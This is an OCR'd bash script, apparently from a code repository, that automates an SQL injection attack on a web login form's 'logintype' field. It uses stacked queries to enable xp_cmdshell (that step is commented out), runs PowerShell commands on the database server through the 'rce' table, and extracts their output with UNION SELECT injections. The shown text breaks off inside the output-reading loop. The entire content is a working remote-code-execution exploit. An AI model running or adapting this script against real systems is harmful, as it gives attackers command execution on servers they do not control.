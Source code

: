 ``` bash
#sleep 2
# enable xp_cmdshell
#curl -s -X POST "$main_url" \
#  --data-urlencode "logintype=2;exec sp_configure 'Xp_cMdShEll', 1;-- -" \
#  --data "username=admin" \
#  --data "password=admin" \
#  --data "rememberme=ON" \
#  --data "B1=LogIn"


function Create_Table {
  
  curl -s -X POST "$main_url" \
  --data-urlencode "logintype=2;create table rce(id int identity(1,1) primary key, output varchar(1024));-- -" \
  --data "username=admin" \
  --data "password=admin" \
  --data "rememberme=ON" \
  --data "B1=LogIn" > /dev/null 
}

function Truncate_Table {
  
  curl -s -X POST "$main_url" \
  --data-urlencode "logintype=2;truncate table rce;-- -" \
  --data "username=admin" \
  --data "password=admin" \
  --data "rememberme=ON" \
  --data "B1=LogIn"  > /dev/null 
}

function Execute_Command {
  command="$1"
  powershell="C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell $command"
  curl -s -X POST "$main_url" \
    --data-urlencode "logintype=2;insert into rce(output) exec Xp_cMdShEll '$powershell';-- -" \
  --data "username=admin" \
  --data "password=admin" \
  --data "rememberme=ON" \
  --data "B1=LogIn" > /dev/null 


  topIdCounter=$(curl -i -s -X POST "$main_url" \
  --data-urlencode "logintype=2 union select 1,2,3,4,(select top 1 id from rce order by id desc),6-- -" \
  --data "username=admin" \
  --data "password=admin" \
  --data "rememberme=ON" \
  --data "B1=LogIn"  
)
  TopIdCounter_decode=$(echo "$topIdCounter" | grep -o "Email=.*;" | cut -d '=' -f 2 | cut -d ';' -f 1 | sed 's/%3D/=/g' | base64 -d; echo)
 
  for ((i = 1; i < TopIdCounter_decode; i++)); do
    output=$(curl -i -s -X POST "$main_url" \
    --data-urlencode "logintype=2 union select 1,2,3,4,(select output from rce where id=$i),6-- -" \
    --data "username=admin" \
    --data "password=admin" \
    --data "rememberme=ON" \
    --data "B1=LogIn"  
    )
```